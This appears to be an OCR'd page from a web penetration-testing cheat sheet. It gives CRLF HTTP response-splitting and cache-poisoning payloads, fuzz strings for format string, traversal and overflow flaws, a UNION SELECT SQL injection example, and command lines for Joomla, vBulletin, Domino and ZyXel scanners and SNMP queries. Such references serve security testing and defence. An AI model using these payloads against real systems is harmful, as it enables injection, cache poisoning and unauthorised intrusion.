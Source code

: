                 %0d%0a
                    Carriage Return (%0d) Line Feed (%0a)
                        HTTP Splitting

                            language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                                i.e. Content-Length= 0 HTTP/1.1 200 OK Content-Type=text/html Content-Length=47<html>blah</html>
                        Cache Poisoning

                            language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20304%20Not%20Modified%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Mon,%2027%20Oct%202003%2014:50:18%20GMT%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                %7f , %ff
                    byte-length overflows; maximum 7- and 8-bit values.
                -1, other
                    Integer and underflow vulnerabilities.
                %n , %x , %s
                    Testing for format string vulnerabilities.
                ../
                    Directory Traversal Vulnerabilities.
                % , _, *
                    Wildcard characters can sometimes present DoS issues or information disclosure.
                Ax1024+
                    Overflow vulnerabilities.
            Automated table and column iteration
                orderby.py
                    ./orderby.py www.site.com/index.php?id=
                d3sqlfuzz.py
                    ./d3sqlfuzz.py www.site.com/index.php?id=-1+UNION+ALL+SELECT+1,COLUMN,3+FROM+TABLE--
        Vulnerability Scanners
            Acunetix
            Grendelscan
            NStealth
            Obiwan III
            w3af
        Specific Applications/ Server Tools
            Domino
                dominoaudit
                    dominoaudit.pl [options] -h <IP>
            Joomla
                cms_few
                    ./cms.py <site-name>
                joomsq
                    ./joomsq.py <IP>
                joomlascan

                    ./joomlascan.py <site> <options>  [options i.e. -p/-proxy <host:port> : Add proxy support -404 : Don't show 404 responses]
                joomscan
                    ./joomscan.py -u "www.site.com/joomladir/" -o site.txt -p 127.0.0.1:80
                jscan
                    jscan.pl -f hostname
                    (shell.txt required)
            aspaudit.pl
                asp-audit.pl http://target/app/filename.aspx (options i.e. -bf)
            Vbulletin
                vbscan.py
                    vbscan.py <host> <port> -v
                    vbscan.py -update
            ZyXel
                zyxel-bf.sh
                snmpwalk
                    snmpwalk -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2
                snmpget
                    snmpget -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2.6.0